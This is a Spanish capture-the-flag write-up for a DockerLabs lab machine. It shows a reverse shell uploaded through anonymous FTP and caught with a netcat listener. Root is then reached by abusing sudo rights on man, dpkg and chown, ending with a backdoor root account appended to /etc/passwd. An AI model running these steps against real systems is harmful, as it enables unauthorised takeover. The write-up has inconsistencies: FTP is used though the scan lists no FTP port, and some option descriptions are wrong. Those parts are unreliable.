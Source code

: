 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b4da0316-9a03-4834-9322-3c358fe21340)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp(SSH):** OpenSSH 8.9p1 (Ubuntu)
2.  **80/tcp(HTTP):** Apache httpd 2.4.52
3. **3306/tcp(Mysql):** MySQL 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Y se encontró una pagina de mantenimiento.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/df753d98-427d-40cd-a489-3c46522a4f99)

# Fase 2- Exploración

#### FTP
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/12ca9496-d7f7-4369-b155-584620ae13b1)

Vemos mucha información por parte del servicio ftp, donde está habilitado el user **anonymous**. Observamos que toda la info que nos reporta en el servicio **ftp** son los archivos fuente de la **web** que corre por el puerto 80. Además, comprobamos que el directorio **/upload** dentro de la web, tiene capacidad de **directory list**, de forma que será fácil la intrusión. Podremos subir una **reverse shell** y acceder a ella desde la web para ganar acceso. La subimos al directorio **/upload**, que es el único lugar donde tenemos permisos de escritura.

#### Upload
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e984709d-a4e0-4865-a632-59229fdae179)
Si vamos al directorio upload vemos que tiene capacidad de listar archivos.

# Fase 3- Explotación
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b6a63d12-c677-4688-8e94-c624a8340527)

Nos conectamos por FTP con el usuario **anonymous** sin necesidad de proporcionar contraseña. y nos pasamos la revershell en php con el comando `put shell.php`

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6c0cfcad-ac4a-4fb2-a4ae-0311feab6b96)

Nos ponemos en modo escucha con `sudo nc -nlvp 443` y nos llega la reverse shell.

# Fase 4- Privilegios
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6205bc82-4650-47bc-a86d-de0d8bcf5732)
Se hizo el tratamiento de la TTY correspondiente y se ejecuto el comando `sudo -l` para ver que permisos de ejecución en que binario tenemos.

#### Binario Man
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c6ef139e-40c4-4ede-b749-7b7c97406935)
Si hacemos **sudo -l** vemos que podemos ejecutar **man** como el usuario **pingu**. Podemos abusar de este para migrar a ese user.

#### Pingu
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e1810b17-3c19-4a1d-a65b-5b61f815e4ed)
Hemos salido del contexto de **man** y migramos al user **pingu**. Hacemos otra vez **sudo -l**
Podemos ejecutar **nmap** y **dpkg** como el user **gladys**. Podemos repetir un proceso muy similar al de **man** con **dpkg**:

#### Gladys
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/f5bfb71a-215a-44d1-9367-d69d16d57aab)
Migramos al user **gladys**. `sudo -u gladys dpkg -l !/bin/bash`

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5ffdf84d-d4a9-47e3-a347-1dcd81a48647)
Podemos ejecutar **chown** como **root** Cambiamos el dueño del **/etc/passwd**:

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2e2bbbf6-4c7a-4f28-8c34-6a360e1c62ab)
```shell
LFILE=/etc/passwd 
sudo chown $(id -un):$(id -gn) $LFILE
ls -l /etc/passwd
--------------------------------
-rw-r--r-- 1 gladys gladys 1292 Apr 28 21:08 /etc/passwd
```

Ahora le pertenece a **gladys**. Probamos a quitar la "**x**" que corresponde a la contraseña del usuario **root** y si la quitamos es posible que nos deje acceder sin contraseña. Como la máquina no tiene ningún editor de texto instalado, lo que haremos será crear un nuevo usuarios con los privilegios de **root** y añadirlo al **/etc/passwd**:

```shell
LFILE=/etc/passwd
sudo chown $(id -un):$(id -gn) $LFILE
openssl passwd hola123
echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd
su newroot
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo !
